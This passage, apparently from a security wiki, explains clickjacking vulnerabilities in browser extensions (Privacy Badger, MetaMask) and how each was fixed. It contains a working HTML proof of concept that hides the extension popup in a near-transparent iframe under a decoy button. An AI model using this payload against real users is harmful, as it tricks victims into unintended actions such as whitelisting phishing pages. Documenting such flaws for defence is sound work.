 The fix was easy: **remove `/skin/*` from the `web_accessible_resources`**.

### PoC

```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
  iframe {
    width: 430px;
    height: 300px;
    opacity: 0.01;
    float: top;
    position: absolute;
  }

  #stuff {
    float: top;
    position: absolute;
  }

  button {
    float: top;
    position: absolute;
    top: 168px;
    left: 100px;
  }
</style>

<div id="stuff">
  <h1>Click the button</h1>
  <button id="button">click me</button>
</div>

<iframe
  src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```

## Metamask Example

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In this case, Metamask fixed the vulnerability by checking that the protocol used to access it was **`https:`** or **`http:`** (not **`chrome:`** for example):

![](../../images/image (21).png)

**Another ClickJacking fixed** in the Metamask extension was that users were able to **Click to whitelist** when a page was suspicious of being phishing because of `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. As that page was vulnerable to Clickjacking, an attacker could abuse it showing something normal to make the victim click to whitelist it without noticing, and then going back to the phishing page which will be whitelisted.
